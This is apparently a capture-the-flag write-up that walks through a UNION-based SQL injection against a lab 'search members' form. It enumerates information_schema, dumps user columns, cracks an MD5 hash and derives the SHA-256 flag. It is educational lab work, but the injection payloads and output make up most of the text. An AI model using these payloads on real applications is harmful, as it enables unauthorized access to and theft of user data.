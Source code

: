 

### Search members by ID

By entering an ID number, we can attempt to retrieve an initial table!

``
ID: 1 
First name: one
Surname : me
``

We can start by sending a SQL command:

``SELECT * FROM users``

``You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM users' at line 1``

We want to be able to use our own SELECT command and ignore the first one that gives an error. We can use the UNION method. The UNION keyword allows you to execute one or more additional SELECT queries and append the results to the original query.

We don't have the names of the columns, but thanks to ``information_schema``, which is default the database informations,  we can retrieve all the necessary data.

``1 UNION SELECT column_name, table_name FROM information_schema.columns``

```
ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: user_id
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: first_name
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: last_name
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: town
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: country
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: planet
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: Commentaire
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: countersign
Surname: users

```

We successfully retrieved all the corresponding tables and columns:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

Therefore, we can extract data from the users table with the following command:

``1 UNION SELECT first_name, country FROM users``

``` 
ID: 1 UNION SELECT first_name, country FROM users
First name: one
Surname: me

ID: 1 UNION SELECT first_name, country FROM users
First name: one
Surname: France

ID: 1 UNION SELECT first_name, country FROM users
First name: two
Surname: Finland

ID: 1 UNION SELECT first_name, country FROM users
First name: three
Surname: Ireland

ID: 1 UNION SELECT first_name, country FROM users
First name: Flag
Surname: 42
```

We have identified the table corresponding to the Flag; the rest should be in the other columns. A simple search among several columns will display the flag.

``1 UNION SELECT first_name, Commentaire FROM users``

```ID: 1 UNION SELECT first_name, Commentaire FROM users
First name: Flag
Surname: Decrypt this password -> then lower all the char. Sh256 on it and it's good!
```

``1 UNION SELECT first_name, countersign FROM users``

```ID: 1 UNION SELECT first_name, countersign FROM users
First name: Flag
Surname: 5ff9d0165b4f92b14994e5c685cdce28
```

###Decrypt the password

To decrypt the password, we use the MD5 Decrypt tool, converting ``5ff9d0165b4f92b14994e5c685cdce28`` to ``FortyTwo``. Following the instructions in the comment, we lower the characters to ``fortytwo``, and then encrypt it with a SHA-256 tool, resulting in ``10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5``.